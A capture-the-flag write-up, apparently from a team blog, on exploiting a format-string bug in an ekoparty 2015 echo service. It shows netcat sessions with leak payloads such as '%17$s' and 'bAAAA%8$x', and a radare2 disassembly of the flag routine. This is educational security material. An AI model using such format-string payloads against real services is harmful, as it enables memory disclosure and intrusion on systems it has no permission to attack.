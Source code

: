 ### Solved by barrebas and superkojiman

Where on earth shall we begin? This one kept us busy for quite some time. The challenge gives no binary, just an address to connect to. Upon connecting, we get some kind of echo server. We quickly noticed a string format vulnerability:

```
$ nc challs.ctf.site 20002
<Simple loop greetings v1.3.3.7>
[!] Type bye to quit
Enter your name: %17$s
Hi 3k0_p4rty_2015!
```

However this wasn't the flag. As we'll see later, this was part of the challenge. We started dumping the entire binary using the string format vuln. Our format string can be found at offset 8 with 1 byte of padding:

bAAAA%8$x

```
nc challs.ctf.site 20002
<Simple loop greetings v1.3.3.7>
[!] Type bye to quit
Enter your name: bAAAA%8$x
Hi bAAAA41414141
```

From the raw dump, we reconstructed parts of the binary. We came across a string that said "OMG! Well done, here's your flag" or something along those lines. Looking through the raw dump, we found where that string is referenced. Disassembling with radare2 gave us this:


```
bas@tritonal:~$ rasm2 -d -o 0x13370861 -
7517c7442404970a37138d45e7890424e86afcffff85c074188d45e789442404c704249a0a3713e883fcffffe9a52a2a2ac70424a20a3713e872fcffff8d45e7890424e867fcffffc70424a60a3713e8cbfcffff8d45e789442404c70424a70a3713e828fcffff85c07566c70424c40a3713e838fcffffa10821371389442404c70424c1203713e8f0fdffff8945dca10821371389442404c70424cc2037130cd8fdffff8945e08b4545dc890424e8f6fbffff8b45dc890424
disassemble error at offset 162
jnz 0x1337087a
mov dword [esp+0x4], 0x13370a97
lea eax, [ebp-0x19]
mov [esp], eax
call dword 0x133704e0
test eax, eax
jz 0x13370892
lea eax, [ebp-0x19]
mov [esp+0x4], eax
mov dword [esp], 0x13370a9a ; 
call dword 0x13370510       ; puts? (value in got is 0xb7e76c40)
jmp dword 0x3d613337
mov dword [esp], 0x13370aa2 ; Hi
call dword 0x13370510
lea eax, [ebp-0x19]
mov [esp], eax
call dword 0x13370510
mov dword [esp], 0x13370aa6
call dword 0x13370580       ; ? (value in got is 0xb7e8ec10)
lea eax, [ebp-0x19]
mov [esp+0x4], eax
mov dword [esp], 0x13370aa7 ; Welcome to ekoparty 2015!
call dword 0x133704f0       ; strcmp? (value in got is 0xb7f60b60)
test eax, eax
jnz 0x13370932
mov dword [esp], 0x13370ac4 ; OMG! nice work, your flag is:
call dword 0x13370510       ; puts?
```